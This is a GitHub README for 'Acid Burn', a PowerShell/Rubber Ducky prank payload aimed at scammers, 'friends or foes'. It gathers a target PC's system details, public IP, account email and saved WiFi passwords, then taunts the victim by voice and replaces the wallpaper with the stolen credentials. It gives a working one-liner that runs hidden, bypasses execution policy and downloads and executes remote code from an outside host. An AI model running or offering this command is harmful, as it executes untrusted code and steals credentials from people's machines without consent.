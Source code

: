 # Acid Burn

A script I put together to torment Call Center Scammers but can be used on your friends as well...or foes.

## Description

This program enumerates a target PC to include Operating System, RAM Capacity, Public IP, and Email associated with the Microsoft account.
The SSID and WiFi password of any current or previously connected to networks.
It determines the last day they changed their password and how many days ago.
Once the information is gathered, the script will pause until a mouse movement is detected.
Then, the script uses Sapi speak to roast their set up and lack of security.
If wifi networks and passwords are detected, the wallpaper will be changed to an image displaying that information.
The generated image will be saved to the desktop and steganography is used to put a hidden message at the bottom of the binary output of the generated image.

## Getting Started

### Dependencies

* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

```
powershell -w h -NoP -NonI -Exec Bypass irm jakoby.lol/zyg | iex
```

* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* Enumerate and get Full Name, Amount of RAM, Public IP, Wifi Password Length, Wifi Networks and Passwords, Day Password was last changed, Email
* Custom responses have been programmed to roast the target based on the information gathered during enumeration phase 
* Wifi Networks and passwords will be generated into an image that will be saved on the desktop
* Image opened in notepad will reveal a hidden message at the bottom of the binary output
* Script will freeze until a mouse movement is detected 
* Sapi Speak will be used to speak out loud the custom responses 
* Desktop wallpaper will be changed to the image of the targets Wifi Networks and Passwords
* Text file will be left on the target desktop with whatever message you choose

![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/RubberDucky/Payloads/RD-AcidBurn/hacked-wallpaper.jpg)

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

Arf
